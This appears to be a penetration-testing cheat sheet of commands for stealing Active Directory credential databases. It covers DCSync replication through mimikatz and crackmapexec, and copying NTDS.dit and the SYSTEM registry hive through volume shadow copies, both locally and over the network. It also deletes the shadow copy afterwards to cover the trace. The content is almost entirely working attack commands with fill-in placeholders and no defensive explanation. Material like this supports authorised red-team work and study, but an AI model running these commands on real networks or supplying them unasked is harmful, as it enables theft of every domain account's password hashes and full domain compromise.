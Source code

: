 ### DCSync (drsuapi)

```
mimikatz
lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>

crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
```

### Volume Shadow Copy

###### Local code execution

```
vssadmin create shadow /for=C:
# Shadow Copy ID: <GUID>
# Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <PATH>\ntds.dit
reg save HKLM\SYSTEM <PATH>\SYSTEM

vssadmin delete shadows /shadow=<GUID>
```

###### Over the network

```
crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```
